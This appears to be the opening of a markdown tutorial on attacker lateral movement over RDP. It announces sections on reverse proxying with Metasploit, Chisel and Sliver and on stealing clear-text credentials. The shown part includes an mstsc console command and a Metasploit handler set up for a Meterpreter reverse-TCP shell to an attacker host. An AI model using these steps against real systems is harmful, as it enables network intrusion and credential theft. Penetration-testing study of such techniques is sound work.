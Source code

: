 
### Tutorial: Lateral Movement with RDP, Reverse Proxying, and Credential Stealing

---

#### **Introduction to Lateral Movement with RDP**

Lateral movement in cybersecurity refers to the techniques attackers use to move through a network after gaining initial access. One of the most common methods is leveraging Remote Desktop Protocol (RDP), a protocol that allows users to connect to a computer over a network connection. Once inside, attackers can escalate privileges, access sensitive data, and spread to other systems.

This tutorial will cover:

1. **RDP as a Console**
2. **Reverse Proxying with Metasploit, Chisel, and Sliver**
3. **Stealing Clear Text Credentials over RDP**

---

### **1. RDP as a Console**

RDP allows users to interact with a system as if they were physically present. Attackers can leverage this to access resources and execute commands on the target machine. In most cases, RDP connections are made using the `mstsc` client on Windows or `rdesktop` and `xfreerdp` on Linux.

**RDP Usage:**
- **RDP via mstsc:**  
  Open the Run dialog (`Win + R`) and type `mstsc`, then enter the target IP address.
  
- **RDP with Console Session:**
  RDP sessions can be connected directly to the console (session 0) of the target machine by using the `/admin` or `/console` switch. This may give access to an already logged-in session:
  ```sh
  mstsc /admin /v:<target_ip>
  ```

### **2. Reverse Proxying with Metasploit, Chisel, and Sliver**

Attackers often need to access internal resources that aren't directly accessible from outside the network. Reverse proxies allow them to tunnel connections through compromised systems.

#### **Metasploit**

**Setting Up a Reverse RDP Proxy with Metasploit:**

1. **Establish a Meterpreter Session:**
   After compromising a machine, open a Meterpreter session.
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST <attacker_ip>
   set LPORT <attacker_port>
   exploit
   ```
